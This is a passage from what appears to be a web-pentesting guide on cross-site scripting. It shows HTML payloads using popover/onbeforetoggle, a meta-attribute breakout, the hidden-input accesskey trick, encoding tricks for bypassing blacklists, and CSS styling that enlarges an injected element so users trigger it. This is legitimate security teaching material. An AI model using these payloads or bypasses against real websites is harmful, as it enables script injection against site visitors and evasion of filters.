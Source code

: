 ```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle=alert(1)>
```

And in **meta tags**:

```html
<!-- Injection inside meta attribute-->
<meta name="apple-mobile-web-app-title" content=""Twitter popover id="newsletter" onbeforetoggle=alert(2) />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```

From [**here**](https://portswigger.net/research/xss-in-hidden-input-fields): You can execute an **XSS payload inside a hidden attribute**, provided you can **persuade** the **victim** into pressing the **key combination**. On Firefox Windows/Linux the key combination is **ALT+SHIFT+X** and on OS X it is **CTRL+ALT+X**. You can specify a different key combination using a different key in the access key attribute. Here is the vector:

```markup
<input type="hidden" accesskey="X" onclick="alert(1)">
```

**The XSS payload will be something like this: `" accesskey="x" onclick="alert(1)" x="`**

### Blacklist Bypasses

Several tricks with using different encoding were exposed already inside this section. Go **back to learn where can you use:**

* **HTML encoding (HTML tags)**
* **Unicode encoding (can be valid JS code):** `\u0061lert(1)`
* **URL encoding**
* **Hex and Octal encoding**
* **data encoding**

**Bypasses for HTML tags and attributes**

Read the[ Blacklist Bypasses of the previous section](./#blacklist-bypasses).

**Bypasses for JavaScript code**

Read the J[avaScript bypass blacklist of the following section](./#javascript-bypass-blacklists-techniques).

### CSS-Gadgets

If you found a **XSS in a very small part** of the web that requires some kind of interaction (maybe a small link in the footer with an onmouseover element), you can try to **modify the space that element occupies** to maximize the probabilities of have the link fired.

For example, you could add some styling in the element like: `position: fixed; top: 0; left: 0; width: 100%; height: 100%; background-color: red; opacity: 0.5`

But, if the WAF is filtering the style attribute, you can use CSS Styling Gadgets, so if you find, for example
